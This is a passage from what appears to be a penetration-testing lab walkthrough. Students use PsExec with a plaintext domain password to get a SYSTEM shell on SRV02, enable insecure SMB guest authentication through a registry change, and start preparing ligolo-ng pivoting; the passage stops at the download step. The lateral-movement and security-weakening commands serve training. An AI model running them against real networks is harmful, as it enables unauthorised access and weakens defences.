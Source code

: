 ```
PS C:\Tools\SysInternalsSuite> .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Within the session of `PsExec` on SRV02, they will proceed to modify the registry key, allowing guest access in SMB2 and SMB3:

Code: powershell

```powershell
reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
```

```
C:\Windows\system32>reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
The operation completed successfully.
```

Subsequently, they will open `PowerShell` and ping `SRV02` to uncover the IP address assigned to that machine:

Code: powershell

```powershell
ping SRV02
```

```
PS C:\Users\helen> ping SRV02

Pinging SRV02.inlanefreight.local [172.20.0.52] with 32 bytes of data:
Reply from 172.20.0.52: bytes=32 time=1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.52:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

Subsequently, students will come to know that `SRV02` is part of an internal network, meaning that they will have to establish dynamic port-forwarding using a [ligolo-ng](https://github.com/nicocha30/ligolo-ng). On their workstations, students will proceed to download the respective versions for Linux and Windows from the [releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2):
